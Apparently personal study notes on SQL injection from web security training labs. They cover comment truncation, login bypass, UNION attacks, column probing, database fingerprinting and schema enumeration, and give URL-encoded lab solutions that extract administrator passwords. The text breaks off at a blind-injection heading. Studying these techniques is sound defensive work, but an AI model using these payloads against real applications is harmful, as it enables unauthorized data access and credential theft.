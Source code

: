 # SQL Injection

SQL injection allows an attacker to interfere with the queries an app makes to its DB, often allowing an attacker to view data they're not normally able to retrieve. A successful SQL injection attack can result in unauthorized access to sensitive data. Sometimes an attacker can obtain a persisten backdoor into an org's sytems leading to long-term compromise.

## Examples

### Retrieving hidden data

An e-commerce app could use a query like this to get details:
`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`.

If it uses a query string to identify which category to pull from, you could construct an attack like `/products?category=Gifts'--`. This will give the query 
`SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1`. As `--` means a comment, the rest of it won't get executed.

You could also do `?category=Gifts'+OR+1=1--` which will result in this query: `SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1` which will return anything from the category Gifts or 1 is equal to 1. Since `1=1` is true, the query will return all items.

### Subverting application logic

In a (very insecure) application that stores a password as plain text, you could log in as anybody by setting your username as `administrator'--`. This assumes the query is `SELECT * FROM users WHERE username = 'person' AND password='something'`. Using the `--` comments out the password check.

### Retrieving data from other database tables

You can use the `UNION` keyword to get data from other tables. If an app has a query like this: `SELECT name, description FROM products WHERE category = 'Gifts'` you could submit the input `' UNION SELECT username, password FROM users--` to get the usernames and passwords and products too.

For a `UNION` query to work, two key requirements must be met:

- The individual queries must return the same number of columns.
- The data types in each column must be compatible between the individual queries.

To do this this involves figuring out:

- How many columns are being returned from the original query?
- Which columns returned from the original query are of a suitable data type to hold the results from the injected query?

#### Determining the number of columns required in an SQL injection UNION attack

The first method to do this involves injecting a series of `ORDER BY` clauses and incrementing the specified index until an error occurs. So for example, `' ORDER BY 1--` or `' ORDER BY 2--` etc...

These payloads modify the original query to order the results by different columns in the result set. When you go over the number of columns in the result set, you'll get an error saying you're out of range. You probs won't see this error explicitly, but as long as you can detect a difference you're golden.

The other method is similar but looks like `UNION SELECT NULL,NULL--`

Lab solution: `/filter?category=Corporate+gifts%27+UNION+SELECT+NULL,NULL,NULL--`

#### Finding columns with a useful data type in an SQL injection UNION attack

A SQL injection UNION attack lets you retrieve the results from an injected query. Most interesting data is string, so you need to find one or more columns in the original query results whose data type is compatible with string data. Since we know the number of columns, you can probe each column to test if it can hold string data with a series of `UNION SELECT` payloads that put a string value into each column. Assuming we have four columns:

```SQL
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL'a'--
```

If the data type is not compatible with string data, the injected query will return a DB error. If no errors, then the column is suitable for retrieving string data.

Lab solution: `filter?category=Accessories%27+UNION+SELECT+NULL,%27gzOzw7%27,NULL--`

#### Using an SQL injection UNION attack to retrieve interesting data

When you've found the number of columns, and found which columns can store data, you can find something interesting! Suppose that:

- the original query returns two columns, both of which can hold string data.
- The injection point is a quoted string within the WHERE clause
- The db contains a table class called `users` with the columns `username` and `password`. You could retrieve the contents by submitting `' UNION SELECT username, password FROM users--`

#### Retrieving multiple values within a single column

Suppose the query only returns one column. You can retrieve multiple values together by concatenating the values together with a seperator to distinguish the values. On Oracle: `' UNION SELECT username || '~' || password FROM users--`

`filter?category=Pets%27%20ORDER%20BY%202--` to get column count (2)
`filter?category=Pets%27+UNION+SELECT+NULL,%27a%27--` to find that the second column has text
`filter?category=Pets%27%20UNION%20SELECT%20null,username%20||%20%27~%27%20||%20password%20FROM%20users--`

### Examining the db

After you've identified a SQL injection vuln, you might wanna get more info about the db. You might say like `SELECT * FROM information_schema.tables` to get the table info. Or for an Oracle DB you'd say `SELECT * FROM v$version` to get the db type. You can use this to identify other DB types too.

#### Querying the db type and version

Different DBs provide diff ways of querying their version.

Microsoft, MySQL: `SELECT @@version`
Oracle: `SELECT * FROM v$version`
PostgreSQL `select version()`

You can combine this with a `UNION` attack like `' UNION SELECT @@version--`

Note: With Oracle DBs, you need to specify a table `FROM`. Luckily, Oracle has a built in table called `DUAL` you can use for this.

Lab 1: `filter?category=Gifts%27%20UNION%20SELECT%20BANNER,NULL%20FROM%20v$version--`
Lab 2: `filter?category=Pets%27%20UNION%20SELECT%20null,@@version--+` (needs a space cos MySQL)

#### Listing contents of database

Most DBS (except Oracle) have a set of views called the info schema which gives info on the db. You can query this like `SELECT * FROM information_schema.tables WHERE table_name = 'Users'`. You've got columns available like `TABLE_CATALOG`, `TABLE_SCHEMA`, `TABLE_NAME`, `COLUMN_NAME`, `DATA_TYPE`.

Lab 1: 
- `?category=Gifts%27%20UNION%20SELECT%20NULL,NULL--` to get two fields available.
- `%27%20UNION%20SELECT%20TABLE_CATALOG,TABLE_SCHEMA%20FROM%20information_schema.tables--` gives us `postgres pg_catalog`
- `Gifts%27+UNION+SELECT+TABLE_SCHEMA,TABLE_NAME+FROM+information_schema.tables--` gives us a nice big output of tables including `public users_aefpoq`
- `?Gifts'+UNION+SELECT+NULL,COLUMN_NAME+FROM+information_schema.columns+WHERE+TABLE_NAME='users_aefpoq'--+`  gives us the column `username_zjwuyi` and `password_oparxa`
- `Gifts'+UNION+SELECT+username_zjwuyi,password_oparxa+FROM+users_aefpoq+WHERE+username_zjwuyi='administrator'--+` which gives us `administrator` and `9lgh0ywa27ug8qy55dbu`.

DONT FORGET a single space is needed at the end for non-oracle DBs otherwise the comment won't work

##### Equivalent to information schema on Oracle

You can get all tables by querying `all_tables`, `SELECT * FROM all_tables` and you can list columns by querying `all_tab_columns`, `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`

Lab 1:
- `'+UNION+SELECT+NULL,NULL+FROM+all_tables--` gives us two columns.
- `'+UNION+SELECT+TABLE_NAME,NULL+FROM+all_tables--` gives us `USERS_HHPYMD`
- `'UNION+SELECT+COLUMN_NAME,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_HHPYMD'--` gives us these two columns `PASSWORD_HABKNH`
`USERNAME_TKUYNM`
- `'+UNION+SELECT+PASSWORD_HABKNH,USERNAME_TKUYNM+FROM+USERS_HHPYMD--` gives us the password `2ixluyzlm8czbn5ogehn` for administrator

### Blind SQL injection vulnerabilities

